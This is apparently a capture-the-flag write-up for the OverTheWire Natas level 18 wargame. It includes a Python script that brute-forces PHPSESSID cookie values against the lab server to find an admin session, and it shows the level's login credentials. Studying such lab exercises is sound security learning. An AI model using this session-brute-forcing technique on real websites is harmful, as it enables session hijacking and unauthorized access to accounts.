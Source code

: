 ![image](https://github.com/user-attachments/assets/7d6faf4a-f9ac-4e91-9925-e4150b27aa9e)

this code doesn't look like a SQLi. it uses PHPSESSID cookie to login.
so we can bruteforce and find the right PHPSESSID that'll let us in.
```
import requests

auth = ('natas18', '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')  # Replace with your actual password
url = "http://natas18.natas.labs.overthewire.org/"

for sid in range(1, 641):
    cookies = {'PHPSESSID': str(sid)}
    response = requests.get(url, auth=auth, cookies=cookies)

    if "You are an admin" in response.text:
        print(f"[+] Found admin session: {sid}")
        print(response.text)
        break
```
This code will bruteforce and find the right session id. 
![image](https://github.com/user-attachments/assets/6e2b01f5-1bac-4abc-bd93-a04de01d658c)
